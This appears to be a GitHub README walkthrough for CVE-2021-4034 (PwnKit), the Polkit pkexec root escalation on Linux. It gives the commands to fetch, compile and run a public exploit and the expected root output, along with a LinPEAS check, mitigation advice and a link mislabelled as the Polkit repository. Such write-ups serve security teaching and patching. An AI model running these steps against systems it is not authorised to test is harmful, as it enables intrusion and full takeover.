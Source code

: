 # Proof of Concept: CVE-2021-4034 - Pkexec Local Privilege Escalation

## Overview

This Proof of Concept (PoC) demonstrates the exploitation of **CVE-2021-4034**, a local privilege escalation vulnerability in the **Polkit** `pkexec` utility, which is part of the default installation on many Linux distributions. The vulnerability allows an unprivileged user to execute arbitrary commands as root, leading to a full system compromise.

- **CVE**: [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
- **Severity**: Critical
- **Platform**: Linux/Unix
- **Vulnerability Type**: Local Privilege Escalation
- **Affected Software**: Polkit `pkexec` utility
- **Impact**: Allows an unprivileged user to gain root privileges.

## Vulnerability Details

The vulnerability lies in the `pkexec` utility of **Polkit**, a component responsible for controlling system-wide privileges in Unix-like operating systems. **CVE-2021-4034**, also known as **PwnKit**, can be exploited to escalate privileges from a local, unprivileged user to root. The flaw allows arbitrary command execution due to a failure to validate the arguments passed to `pkexec`.

## How to Check if Your System is Vulnerable

To determine whether your Linux system is vulnerable to **CVE-2021-4034 (Pkexec Local Privilege Escalation)**, you can use the privilege escalation detection tool **LinPEAS**. LinPEAS helps identify common privilege escalation vectors, including known vulnerabilities like **CVE-2021-4034**.

#### Steps to Check with LinPEAS:

1. **Download LinPEAS**:
   First, download LinPEAS onto your system by running the following command:

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh  
```

2. **Run LinPEAS**:
   Once downloaded, give LinPEAS execution permissions and run it to scan the system for privilege escalation vulnerabilities:

``` 
   chmod +x linpeas.sh
   ./linpeas.sh
```


3. **Check for Vulnerabilities**:
   After LinPEAS completes its scan, it will provide a detailed report. Look for any references to **CVE-2021-4034** or **Polkit** within the results to determine if your system is vulnerable to this specific issue.

LinPEAS provides a comprehensive security check for privilege escalation risks and can help identify vulnerabilities that need immediate attention.

## Exploitation

### Tools Required:
- A vulnerable system with `pkexec` installed (default on most Linux distributions).
- Exploit script for **CVE-2021-4034** (available on GitHub).

### Steps to Exploit:

1. **Initial Access**: 
   The attack begins by obtaining initial low-privileged user access to the target machine, such as through a reverse shell. In this case, I had a low-privileged shell from an earlier SQL injection attack.

2. **Download the Exploit**: 
   The public exploit for **CVE-2021-4034** is available on GitHub. Clone the repository containing the exploit:

```
   git clone https://github.com/ly4k/PwnKit.git
```   

3. **Compile the Exploit**: 
   Navigate to the `PwnKit` directory and compile the exploit code using GCC:

```   
   gcc pwnkit.c -o pwnkit
```   

4. **Execute the Exploit**: 
   Once the exploit is compiled, run it on the target machine. The exploit will use the vulnerability in `pkexec` to escalate privileges to root:

```   
   ./pwnkit
```   

5. **Gain Root Access**: 
   Upon successful execution, the exploit grants root-level access to the system. 

   **Proof of Exploit Example:**

   ![Proof of Exploit](https://github.com/AhsanA3/Cybersecurity-Technical-Writing/blob/main/Proof%20of%20Concept%20(PoC)/CVE-2021-4034%20-%20Pkexec%20Local%20Privilege%20Escalation/Successful%20Privesc.jpg)

## Proof of Exploit

After executing the exploit, you can verify that root access has been obtained by running the following command:

```
id
```

Expected output:

```
uid=0(root) gid=0(root) groups=0(root)
```

This output confirms that root privileges have been successfully gained on the target machine.

## Mitigation

To mitigate this vulnerability, affected users should update to a patched version of **Polkit**. System administrators should ensure that their systems are up to date with the latest security patches to prevent local privilege escalation attacks. The specific patch for **CVE-2021-4034** should be applied as soon as possible to secure the system.

Additionally:
- Enforce the principle of least privilege (POLP) by minimizing user privileges on critical systems.
- Implement a robust patch management process to keep all software up to date.

## References

- [CVE-2021-4034 on Mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
- [Polkit GitHub Repository](https://github.com/ly4k/PwnKit)

---

**Disclaimer**: This PoC is intended for educational and research purposes only.
